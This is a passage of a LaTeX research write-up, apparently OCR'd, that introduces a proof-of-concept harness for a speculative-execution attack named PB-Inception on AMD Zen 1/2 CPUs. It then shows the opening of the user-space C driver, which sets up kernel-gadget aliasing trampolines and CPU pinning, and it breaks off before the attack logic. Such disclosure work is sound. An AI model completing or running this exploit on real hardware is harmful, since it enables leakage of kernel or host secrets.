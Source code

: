 \documentclass[11pt,a4paper]{article}
\begin{document}
Listing~\ref{lst:fullpoc} is the one‑shot harness that reproduces the full setup: 
it builds/loads the kernel gadget LKM, compiles the user components (ASM, trampoline 
builder, driver), wires sysfs, and launches the PoC pinned to a core. This listing is 
intended to be executable as‑is on a suitable AMD Zen~1/2 platform under the conditions 
outlined in the methodology and controls sections.

\begin{lstlisting}[language=C,caption={User-space driver for PB-Inception: wires sysfs, builds aliasing trampolines, provisions slow predicate, and triggers the IBPB boundary via \texttt{pbinc\_entry()}.},label={lst:driver}]
#define _GNU_SOURCE
#include <stdio.h>
#include <stdint.h>
#include <stdlib.h>
#include <sched.h> // For CPU pinning
#include <unistd.h>
#include <errno.h>

#define TRAMPOLINE_COUNT 64 // Number of speculative callsite trampolines

// Extern symbols from the ASM file and trampoline builder
extern uint64_t __pbinc_kernel_gadget_addr;    // Kernel gadget VA (to alias against)
extern uint64_t __pbinc_probe_shared;          // SHARED (C-bit=0) buffer (host-observable)
extern uint64_t __alias_tbl[TRAMPOLINE_COUNT]; // Callsite trampoline table (filled at runtime)
extern uint64_t __slow_predicate_ptr;          // Cold memory to delay branch resolution

// Provided by trampoline.c -> builds the aliasing callsite trampolines
void *pbinc_create_trampolines(uint64_t gadget_addr);

// Provided by pbinc.asm -> the speculative training -> syscall -> spin harness
void pbinc_entry(void);

// Reads a hex value from a sysfs-style file (e.g. /sys/kernel/pbinc/gaddr)
static uint64_t read_hex(const char *path) {
    FILE *f = fopen(path, "r");
    if (!f) { 
        perror(path); exit(1); // Abort if file can't be opened
    }
    unsigned long long x = 0;
    if (fscanf(f, "%llx", &x) != 1) {
        fprintf(stderr, "parse %s failed\n", path); exit(1); // Failed to parse hex
    }
    fclose(f);
    return x; // Return parsed 64-bit value
}

int main(int argc, char **argv) {
    if (argc < 2) {
        // Expect SHARED buffer guest-virtual address (GVA) as argument
        fprintf(stderr, "usage: %s <guest-VA-of-SHARED-probe-hex>\n", argv[0]);
        return 2;
    }

    ////////////////////////////////////////////
    // 1. Pin to specific CPU core -> stability
    ////////////////////////////////////////////
    cpu_set_t set; CPU_ZERO(&set); CPU_SET(0, &set);
    sched_setaffinity(0, sizeof(set), &set); // Enforce CPU affinity for PoC repeatability


\end{lstlisting}
\end{document}

